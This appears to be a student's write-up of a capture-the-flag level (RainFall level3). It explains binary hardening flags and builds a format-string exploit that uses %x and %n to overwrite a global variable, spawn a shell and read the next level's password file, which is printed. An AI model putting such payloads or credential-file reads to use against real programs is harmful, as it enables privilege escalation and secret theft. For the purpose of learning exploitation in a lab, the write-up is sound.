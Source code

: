 # level3

### Understanding the problem

First, as always we analyze the code through ghidra, we get something looking like this:

```c
void v(void) {
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}
```

The main function is only calling v(). So as we can see this time we use fgets() a secured version of gets() that only takes a specific number of character, here 0x200 which in decimal is 512. the buffer is 520 chars long, longer than the input size accepted in the fgets(). No obvious security breach so far.

We see that in order to solve this exercise and launch a new shell, we need m to be equal to 0x40 which correspond to 64 in decimal, there are no declaration for m tho besides in ghidra at some point with the address 0x0804988c

We also quickly realized that the difference with level2 is the usage of printf instead of puts. Because we know already a lot about this function, we tried something:

```sh
level3@RainFall:~$ ./level3 
%s
Segmentation fault (core dumped)
```

So %s makes the program segfault, the interesting part here is that apparently the input we entered triggered something in printf, which is probably interpreting this %s as a string shared via a variable, but no variabe are present so the program segfault. However by testing a little more we found that:

```sh
level3@RainFall:~$ ./level3 
%d
512
```

The %d is interpreted, and with what ? The next variable in the stack, which apparently is the buffer size. We can now read into the stack with this exploit:

```sh
AAAA %x %x %x %x %x %x %x                                                            
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```

We can see here a buffer that we fill by "AAAA", then the buffer size in hexadecimal form, then 2 addresses in the stack (starts with b), then our buffer again but stored (41 = A), and some random numbers after that. Problem here, how to write something ? We can read but we need somehow to make this mysterious m equal to 64. A surprising thing happen when doing this:

```sh
level3@RainFall:~$ ./level3 
%m
Success
```

Where m is supposed to be the month of the year in regular printf, here it prints Success. There is definitely something to do here but what?

### Strange login output (digression)

This part is, again, probably not gonna help us with this direct exercise but will help us understanding more things about our environment.
When we login we get this message (or similar) everytime:

```bash
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

We are first gonna focus on the second part, with the RELRO, STACK CANARY etc... than can be obtained with this command:

```bash
level0@RainFall:~$ hecksec --file /home/user/level3/level3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

- RELRO - Relocation Read-Only. In ELF files, binay uses a look-up table called the GOT (Global Offset Table). This GOT is normally writable, so an attacker (us) could write a few bits on this GOT, and redirect code for malicious execution. Having this option desactivated like we have here since the beginning of those levels means that we can write on this GOT. The security added when activated is that the GOT is now read-only.

- STACK CANARY. This helps protecting stack overflows by simply adding random valued that will be validated at the end of the stack. If some malicious input are entered in the stack, the stack canary will be moved down and won't be valid, stopping the program and avoiding stack overflow. Here again it is deactivated since the beginning. (The story says that canary were used to detect toxic gases such as carbon monoxide in workspace). The canary is placed just before the return address so if it is modified we know a bufferflow is happening.

- NX - No-Execute. Here NX option is disabled, it was only enabled on level0 but disabled for the rest of the levels. This option is a built-in technology inside the CPU allowing to split the aread of memory into 2 sections, data, and code. When this option is enabled the memory space for data will not be able to execute code. which means that the stack, the heap or the BSS would not be able to execute code, for example when using a shellcode, if the NX bit was enabled, the code would not have been interpreted and executed but only read as data.

- PIE - Position Independent Executable. ELF files have a fixed base address space and code must be executed at this address in order to work. We saw it multiple time already but the code is loaded at 0x08048000 address space everytime which helps us to use it as valuable informations to make buffer overflow when this option is deactivated. For all levels so far this option have been deactivated.

- RPATH and RUNPATH define if the libraries on runtime are seached hard coded or not, having NO RPATH and NO RUNPATH is more secured to avoid arbitrary code execution.

As for the first part we have some elements that shows kernel security, they appears only when login in, where the program informations are printed when changing user. They just show some more protections that we can quickly describe like this using this command:

```
checksec --kernel
```

- GCC stack protector - when enable helps to protect buffer overflows. Here it is activated but never seemed to protect anything so far since all our buffer overflows exploits worked well.

- Strict user copy checks - disabled here, if it was activated it blocks certains interactions users have, for example not allowing them to copy files to kernel-spaces, and enforce user space memories rules.

- Read-only kernel data - Restrict /dev/mem - Restrict /dev/kmem - Those 3 options just add some security to prevent kernel memory modifications or simply access to any user, avoiding reading memory of certains area of the machine that could give very sensitive informations.

- grsecurity, PaX / Kernel Heap Hardening - Same thing they are both kernel protections, but those 2 are not enabled where the 3 we presented before are.

- ASLR - Address Space Layout Randomization is here not activated. As its name says, it allows the machine memory to not have fixed starting addresses but to be randomized, avoiding to know for instance that stacks memory starts by 0xb.

### Format String Vulnerability

The first thing we need to find is a way to write in the memory, because as far as we know, m is a global variable, declared but not set, so it is stored in bss space of the memory (this can be confirmed with objdump), if this variable is unset (and doesn't seem to be set anywhere in the program), we need to write 64 in it. For that we have this very weird but existing option in printf which is %n. %n allows us to __write__ the number of bytes printed so far at a certain address. The regular usage of it is as such:

```c
printf("This, is an %nexample", &addr);
```

This is gonna store 12 in addr (so the length of "This, is an "), into the next address present in memory, so here addr.

Here the next space in memory contains 0x200, for 512 in decimal and is probably the buffer size, so if we write %n, it is gonna try to write in the address memory 0x00000200 which is obviously not accessible by the program and will segfault:

```sh
level3@RainFall:~$ ./level3 
%n
Segmentation fault (core dumped)
```

So we need to somehow replace the address right next to the %n argument for the one of m. We also need to have a buffer of 64 chars before the %n so the value printed in m is 64 and fulfill the if statement. Thankfully we noticed that by printing a bunch of "%x" values, the buffer is stored not too far from where we're writing (stdin opened by fgets). So as a first try we just tried to print the addres, and a %n, and it segfault. Then trying to fill the space with random data to reach the 64 chars length, but same thing it segfault.

This last step of understanding took a looottttt of time to understand, but this is how it work. When entering the data in fgets, the values are passed to printf. When printf encounter a specific parameter such as %x, it is gonna "consume" a value from the stack, moving the stack pointer by one (It doesn't affect the rest of the execution, it is just consuming values inside printf, not for the rest of the execution). Which mean that if we could move the stack pointer to the space in the buffer when the address of m is, fill this buffer of 64 chars and finish it with a %n, then it should work. And it does:

```sh
level3@RainFall:~$ echo $(python -c "print('\x8c\x98\x04\x08' + '%x ' * 3 + 'A' * 38 + '%n')") > /tmp/payload
level3@RainFall:~$ cat /tmp/payload -| ./level3
�200 b7fd1ac0 b7ff37d0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Important doc

[Video + short explanation for FSV](https://www.reddit.com/r/C_Programming/comments/18wtu9a/fgets_is_unsafe_so_whats_the_alternative/)

[CTF What's a format string vuln](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)

[Exploiting format string vuln](https://medium.com/@gurdeeps158/exploit-format-string-vulnerability-in-printf-6740d9ff057e)

[Memory protection and bypasses](https://mdanilor.github.io/posts/memory-protections/)

[Checksec explained](https://medium.com/@slimm609/checksec-d4131dff0fca)
